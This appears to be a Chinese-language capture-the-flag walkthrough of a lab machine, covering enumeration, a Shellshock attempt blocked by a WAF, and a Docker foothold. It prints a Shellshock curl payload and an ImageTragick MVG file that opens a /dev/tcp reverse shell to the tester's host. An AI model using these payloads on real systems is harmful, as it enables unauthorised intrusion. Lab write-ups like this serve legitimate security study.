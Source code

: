 先访问该目录，这是一个 shell 脚本.... 提供了很多有用信息...

docroot 设置用户的主目录：DOCUMENT_ROOT=/home/spanishdancer/content

后端服务器版本为：SERVER_SOFTWARE=Apache/2.2.22 (Debian) 与我们在标头中实际获得的版本不同，应该使用了某种类型的反向代理或 WAF 等情况...

服务器的内部 IP 地址为：172.24.0.2....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUa5fBsR68YX3XsDunrfTjPGqIUurIc3IsWY6V0IY2oDiazz9uAibcxlUQ/640?wx_fmt=png)

```
curl -k -H "User-Agent: () { :; }; /bin/eject" https://10.10.10.65/cgi-bin/stats
```

通过提示，直接利用 shellshock 漏洞攻击，发现一个表情符号，该表情符号将在我们尝试利用它时持续存在，应该是有一个 Web 应用程序防火墙在保护服务器免受攻击....（WAF)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUHUVJx1sRbxEvPeALfE5NkapFiaU9xLPtcKrCp2ibuSR6HIUYGdibiat3fA/640?wx_fmt=png)

访问两个域名，一个是 Not Found 报错，一个重定向回到了原始 web 页面...

挂着利用 dirb 和 gobuster 爆破目录发现都存在 upload 目录信息... 下载 upload 一般文件上传利用了...GO

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoU0e2q1hAOFibJjEdhPN4eyklx5FAdXibbNx2FkafeEAalPwaiaa58FoC3g/640?wx_fmt=png)

标题表明这是图像转换器，随意上传文件后没任何反应...

这里经过 google 查询，图像转换器可能容易受到 [Imagetragick](https://imagetragick.com/) 的攻击，Imagetragick 是 ImageMagick 库中较著名的利用方法之一...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoU90XnFWOyl5n6mqkH7yq3QGiaKRiazk0uauBBvZJ2icQpKibTuqOKJHwjSQ/640?wx_fmt=png)

可看到随意搜索 Imagetragick 攻击都能找到 shell 代码.... 利用即可

创建了 mvg 文件来利用此漏洞....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUU2gGZQucUASIHia87ImeWn4CWjiaWdgEXEXDSIUuEftibEAzO6c5rUriaw/640?wx_fmt=png)

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i >/dev/tcp/10.10.14.51/4444 0<&1 2>&1")'ms
pop graphic-context
```

通过简单一句话 shell 提权成功提权...root 权限？？？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUFKIFyR4DH2LY9CHv2v4aV6pDc9h1yVu1ZzDaicvoFXB1TOBzP6Qicacg/640?wx_fmt=png)

这里限制非常多，无法读取 flag 信息，先枚举吧.... 上传 LinEnum

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUtYynmdsYMRJjl38SuwAL5eXl031yoOnLldqJflIxQecmRYuRkaib0Sw/640?wx_fmt=png)

这里发现提权的这台是在 Docker 容器中，根据 nmap 扫描，应该是存在多台服务器情况...

下载的权限就在一个监狱当中，需要越狱突出重围的感觉... 限制非常多，有 WAF 或者堡垒机等安全设备....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM3SvGhYrDiasx6U9WnaiaxoUiayqeRndlda33QXvqZTgkw2W60AKMBibVaNaIqbMt2LbeZ9K2vmJYibNg/640?wx_fmt=png)

